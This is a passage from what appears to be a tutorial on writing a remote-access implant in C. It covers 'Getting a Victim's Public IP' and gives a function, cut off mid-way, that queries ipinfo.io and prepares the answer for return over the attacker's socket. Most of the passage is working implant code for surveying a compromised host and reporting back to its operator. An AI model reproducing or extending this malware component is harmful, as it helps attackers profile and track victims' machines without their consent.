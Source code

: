 Gettin a Victim's Public IP is a little bit trickier, but it shares the same premise we've seen before:

* Open sockets for connection
* Have file descriptors to get the information from the sockets

However we need to externally query the Public IP info. That means we need to perform a HTTP Request to a service like [ipinfo.io](https://ipinfo.io). We will need to do the following:

* Use [netdb.h](https://www.gnu.org/software/libc/manual/html_node/Networks-Database.html) to resolve the server DNS name
* Parse the response back to our socket

```c
void get_external_ip(int sock) {
    int web_sock;
    struct sockaddr_in server;
    struct hostent *host;
    char http_request[] = "GET /ip HTTP/1.1\r\nHost: ipinfo.io\r\nConnection: close\r\n\r\n";
    char response[4096];
    char external_ip[100];

    // Resolve hostname (ipinfo.io)
    host = gethostbyname("ipinfo.io");
    if (host == NULL) {
        send(sock, "Failed to resolve ipinfo.io\n", 28, 0);
        return;
    }

    // Create a socket for the HTTP request
    web_sock = socket(AF_INET, SOCK_STREAM, 0);
    if (web_sock == -1) {
        send(sock, "Failed to create socket\n", 24, 0);
        return;
    }

    // Set up the server structure
    server.sin_family = AF_INET;
    server.sin_port = htons(80);
    memcpy(&server.sin_addr, host->h_addr, host->h_length);

    // ipinfo.io server
    if (connect(web_sock, (struct sockaddr *)&server, sizeof(server)) < 0) {
        send(sock, "Failed to connect to ipinfo.io\n", 31, 0);
        close(web_sock);
        return;
    }

    if (send(web_sock, http_request, strlen(http_request), 0) < 0) {
        send(sock, "Failed to send HTTP request\n", 28, 0);
        close(web_sock);
        return;
    }

    int received = recv(web_sock, response, sizeof(response) - 1, 0);
    if (received < 0) {
        send(sock, "Failed to receive HTTP response\n", 32, 0);
        close(web_sock);
        return;
    }
    response[received] = '\0';

    char *ip_start = strstr(response, "\r\n\r\n"); // Skip HTTP headers
    if (ip_start != NULL) {
        ip_start += 4; // Move past the "\r\n\r\n"
        snprintf(external_ip, sizeof(external_ip), "External IP: %s\n", ip_start);
```
